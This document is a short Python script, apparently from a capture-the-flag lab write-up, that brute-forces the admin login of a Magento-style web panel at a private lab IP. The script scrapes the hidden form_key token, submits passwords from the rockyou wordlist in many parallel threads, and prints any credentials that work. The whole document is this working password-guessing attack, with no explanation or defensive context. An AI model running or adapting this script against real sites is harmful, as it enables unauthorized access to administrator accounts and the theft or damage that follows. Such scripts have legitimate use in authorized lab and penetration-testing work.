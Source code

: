```python
import re
import sys
import requests
import multiprocessing
import multiprocessing.dummy

USERNAME = 'admin'
TARGET = 'http://10.10.10.140/index.php/admin'
WORDLIST = 'rockyou.txt'

def thread(password):
  password = password.strip()
  s = requests.session()
  r = s.get(TARGET)
  # r = s.get(TARGET, proxies={'http': 'http://127.0.0.1:8080/'})
  form_key = re.findall(r'<input name="form_key" type="hidden" value="(.*)" />', r.text)
  if not form_key:
    return
  print(f'[*][{form_key[0]}] trying {password} ...')
  data = {
    'form_key': form_key[0],
    'login[username]': USERNAME,
    'dummy': '',
    'login[password]': password
  }
  r = s.post(TARGET, data=data)
  # r = s.post(TARGET, data=data, proxies={'http': 'http://127.0.0.1:8080/'})
  if 'Invalid User Name or Password' not in r.text:
    print(f'[+] FOUND {USERNAME}/{password}')
    sys.exit(0)

if __name__ == '__main__':
  passwords = []
  with open(WORDLIST, 'r', encoding='latin-1') as f:
    passwords.extend(f.readlines())
  #random.shuffle(passwords)
  print(f'[*] loaded {len(passwords)} passwords ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, passwords)
  threads.join()
```


